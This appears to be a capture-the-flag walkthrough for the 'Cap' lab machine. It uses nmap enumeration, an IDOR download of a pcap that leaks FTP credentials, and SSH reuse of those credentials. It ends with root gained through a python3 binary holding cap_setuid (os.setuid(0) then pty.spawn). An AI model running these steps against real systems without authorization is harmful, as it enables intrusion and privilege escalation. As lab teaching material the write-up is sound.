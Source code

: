 <img width="1102" height="153" alt="image" src="https://github.com/user-attachments/assets/978befe9-0d66-4099-a25f-80d871e66ade" />


Cap is a easy rated linux box which is pretty easy with the foothold and the privilege escalation too. It starts with a pcap file to download using idor vulnerability, analyzing the pcap file gives us ftp and ssh creds. After getting shell as user and running linpeas shows an interesting binary with capabilities abusing the binary gives us the root shell.

# Enumeration

## NMAP

```bash
nmap -p- --min-rate=2000 -sVC -v -oN nmap 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web page

<img width="1287" height="809" alt="image" src="https://github.com/user-attachments/assets/c3b99e70-09a6-48ba-ae1d-3c6e1f8bff6e" />

We see a download button, i download the file and it is a pcap file with a little to no traffic inside of it.I intercepted the request and saw ‘/download/1’ we have control over the directory after download so we can download any file listed. Itried download the ‘download/0’ and got a pcap file which has more traffic which we can analyze.

```bash
GET /download/0 HTTP/1.1
Host: 10.10.10.245
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.245/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

 
<img width="1421" height="497" alt="image" src="https://github.com/user-attachments/assets/e390e731-fa47-49a3-996b-923e4ec28929" />



We can see a plain text password was passed to authenticate to ftp.

Now we have the password we can try to authenticate to ftp and look for some more interesting stuff.

# Exploitation

## Shell as nathan

```bash
ftp 10.10.10.245                        
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44435|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Oct 05 04:35 snap
-r--------    1 1001     1001           33 Oct 05 04:08 user.txt
226 Directory send OK.
```

We have our user flag here, we can also try same creds for ssh 

```bash
ssh nathan@10.10.10.245            
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct  5 05:36:23 UTC 2025

  System load:  0.08              Processes:             235
  Usage of /:   36.6% of 8.73GB   Users logged in:       1
  Memory usage: 34%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 3 zombie processes.

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Oct  5 04:36:23 2025 from 10.10.16.3
nathan@cap:~$ 
```

## Shell as root

Now that we have shell as user we can run inpeas to get more information and look for potential vectors to escalate our privileages

```bash
╚ Parent process capabilities
CapInh:  0x0000000000000000=                                                                                                 
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
CapAmb:  0x0000000000000000=

Files with capabilities (limited to 50):
***/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip***
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Running linpeas show th python binary on the system have setuid capabilities, which we can use by setting the uid as 0 and then spawing a bash shell inside of python terminal using pty.

```bash
python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import pty
>>> os.setuid(0)
>>> pty.spawn('bash')
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# ls /root 
root.txt  snap
root@cap:~# 
```

And here we got our root shell!
